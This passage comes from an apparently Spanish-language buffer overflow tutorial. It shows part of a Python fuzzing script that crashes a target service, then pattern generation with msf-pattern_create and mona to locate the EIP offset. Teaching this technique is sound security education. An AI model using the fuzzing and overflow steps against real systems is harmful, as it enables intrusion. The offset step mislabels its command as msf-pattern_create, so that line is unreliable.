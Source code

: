 ```python
         s.send("%s\r\n" % buffer)
         data = s.recv(1024)
         contador += 100
         #En algunas ocasiones no suele romperse la conexion lo que evita entrar
         #al codigo de la excepcion por lo que se puede considerar meter un sleep
         #para visualizar en que valor de la iteracion se pausa la ejecucion del binario
         time.sleep(1)
      except Exception as ex:
         print "\n[!] Ha habido un error de conexion\n"
         print ex
         sys.exit(1)
```

Por medio del script se puede buscar el cambio del `EIP` de manera automática.

![Cambio de valor de EIP](./images/bof_4.png)

**Generacion de patrón**

`msf-pattern_create -l <longitud de bytes>`

`!mona pattern_create <longitud de bytes>`

Después de provocar el fallo con el patrón, la dirección `EIP` se sustituiría con un valor del segmento de nuestro patrón. El valor que contenga `EIP` ahora lo identificaremos para saber el offset específico.

![EIP con valor de patrón](./images/bof_5.png)

**Identificación offset**

`msf-pattern_create -l <EIP>`

`!mona pattern_offset <EIP>`

![EIP con valor de patrón](./images/bof_6.png)
